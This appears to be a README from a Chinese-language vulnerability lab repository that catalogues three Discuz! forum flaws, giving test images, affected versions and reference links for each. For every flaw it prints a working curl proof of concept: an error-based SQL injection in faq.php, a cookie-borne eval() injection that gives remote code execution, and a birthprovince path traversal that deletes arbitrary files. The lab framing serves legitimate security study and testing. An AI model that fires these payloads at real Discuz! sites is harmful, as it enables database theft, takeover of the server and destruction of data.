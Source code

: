 ### faq.php gids 报错注入

测试镜像

* src/discuz/7.2/

影响版本 

* <= 7.2

参考链接

* [Discuz!7.2 faq.php文件SQL注入漏洞分析及利用实战](http://blog.51cto.com/simeon/1440000)

Poc

```
curl -g '127.0.0.1/faq.php?action=grouppermission&gids[99]=%27&gids[100][0]=%29%20and%20%28select%201%20from%20%28select%20count%28*%29,concat%28user%28%29,floor%28rand%280%29*2%29%29x%20from%20information_schema.tables%20group%20by%20x%29a%29%23'
```

### Discuz! 6.x/7.x 全局变量防御绕过漏洞

测试镜像

* src/discuz/7.2/

影响版本

* 6.X
* 7.X

参考链接

* [Discuz! 6.x/7.x 全局变量防御绕过导致命令执行](https://www.secpulse.com/archives/2338.html)

Poc - 替换帖子为正确地址

```
curl '127.0.0.1/viewthread.php?tid=13&extra=page%3D1' -H 'Cookie: GLOBALS[_DCACHE][smilies][searcharray] = /.*/eui; GLOBALS[_DCACHE][smilies][replacearray] = eval%28%24_POST%5BMH%5D%29%3B' -d 'MH=die(md5(1));'
```

### birthprovince 任意文件删除

测试镜像

* src/discuz/x3.2/

影响版本 

* <= X3.2

参考链接

* [Discuz!X前台任意文件删除漏洞重现及分析](http://www.freebuf.com/vuls/149904.html)

Poc

```
设置要删除的文件
curl 'http://127.0.0.1/home.php?mod=spacecp&ac=profile&op=base' -d 'birthprovince=../../../hello.txt&profilesubmit=1&formhash=...' -H 'Cookie: ...''

触发漏洞
curl 'http://127.0.0.1/home.php?mod=spacecp&ac=profile&op=base' -F 'profilesubmit=1' -F 'formhash=...' -F birthprovince=@1.jpg -H 'Cookie: ...'
```



